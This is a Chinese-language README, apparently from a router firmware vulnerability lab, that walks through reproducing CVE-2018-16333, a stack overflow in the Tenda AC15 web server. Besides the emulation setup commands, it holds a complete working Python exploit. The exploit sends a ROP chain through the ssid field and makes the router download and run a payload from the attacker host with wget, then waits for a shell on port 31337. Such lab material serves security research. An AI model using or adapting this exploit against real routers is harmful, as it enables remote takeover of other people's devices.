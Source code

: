 # Tenda AC15 栈溢出漏洞（CVE-2018-16333）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80

本环境关系依赖如下，需依次构建：

```sh
# firmianay/ubuntu1604 -> firmianay/qemu-system:armhf

$ cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 . && cd ../../
$ cd baseImage/qemu-system/armhf && docker build -t firmianay/qemu-system:armhf . && cd ../../../
```

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/US_AC15V1.0BR_V15.03.05.19_multi_TD01.bin"
```

然后即可构建本例镜像：

```sh
# cp baseImage/busybox/1.31.0/busybox-armv5l CVE-2018-16333/system-emu/tools/busybox
# cp baseImage/gdbserver/7.11.1/arm-gdbserver-7.11.1 CVE-2018-16333/system-emu/tools/gdbserver

$ docker-compose -f docker-compose-system.yml build
```

最后启动漏洞环境：

```sh
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用，根据输出的地址信息修改 libc_base
$ python3 tools/exp.py
```

## 漏洞复现

![img](./poc.png)

## Exploit

```py
#!/usr/bin/python3

import requests
from pwn import *
from threading import Thread

cmd  = b'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += b'chmod 777 /msf\n'
cmd += b'/msf'

assert(len(cmd) < 255)

libc_base = 0x76cee000

system = libc_base + 0x5A270
readable_addr = libc_base + 0x64144
mov_r0_ret_r3 = libc_base + 0x40cb8
pop_r3 = libc_base + 0x18298

payload  = b'a'*(0x60) + p32(readable_addr) + b'b'*(0x20-8)
payload += p32(pop_r3) + p32(system) + p32(mov_r0_ret_r3) + cmd

url = "http://192.168.2.2:80/goform/fast_setting_wifi_set"
cookie = {"Cookie": "password=12345"}
data = {"ssid": payload}

def attack():
    try:
        requests.post(url, cookies=cookie, data=data)
        requests.post(url, cookies=cookie, data=data)
    except: pass

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 参考链接

- https://www.anquanke.com/post/id/231445
